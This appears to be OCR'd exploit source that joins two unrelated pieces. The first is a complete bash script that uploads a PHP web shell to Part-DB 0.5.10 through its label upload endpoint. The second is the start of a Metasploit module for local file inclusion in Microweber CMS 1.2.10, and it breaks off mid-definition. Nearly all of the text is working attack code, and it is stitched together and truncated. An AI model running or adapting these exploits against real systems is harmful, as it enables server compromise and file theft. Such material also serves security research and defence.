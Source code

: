 #!/bin/bash
host=127.0.0.1/Part-DB-0.5.10 #WEBHOST
#Usage: Change host
#Command: bash exploit.sh
#EXPLOIT BY @DSKMehra
echo "<?php system(id); ?>">POC.phtml  #PHP Shell Code
result=`curl -i -s -X POST -F "logo_file=@POC.phtml" "http://$host/show_part_label.php" | grep -o -P '(?<=value="data/media/labels/).*(?=" > <p)'`
rm POC.phtml
echo Shell Location : "$host/data/media/labels/$result"
  # Exploit Title: Microweber CMS v1.2.10 Local File Inclusion (Authenticated)
# Date: 22.02.2022
# Exploit Author: Talha Karakumru <talhakarakumru[at]gmail.com>
# Vendor Homepage: https://microweber.org/
# Software Link: https://github.com/microweber/microweber/archive/refs/tags/v1.2.10.zip
# Version: Microweber CMS v1.2.10
# Tested on: Microweber CMS v1.2.10

##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Auxiliary
  prepend Msf::Exploit::Remote::AutoCheck
  include Msf::Exploit::Remote::HttpClient

  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'Microweber CMS v1.2.10 Local File Inclusion (Authenticated)',
        'Description' => %q{
          Microweber CMS v1.2.10 has a backup functionality. Upload and download endpoints can be combined to read any file from the filesystem.
          Upload function may delete the local file if the web service user has access.
        },
        'License' => MSF_LICENSE,
        'Author' => [
          'Talha Karakumru <talhakarakumru[at]gmail.com>'
        ],
        'References' => [
          ['URL', 'https://huntr.dev/bounties/09218d3f-1f6a-48ae-981c-85e86ad5ed8b/']
        ],
        'Notes' => {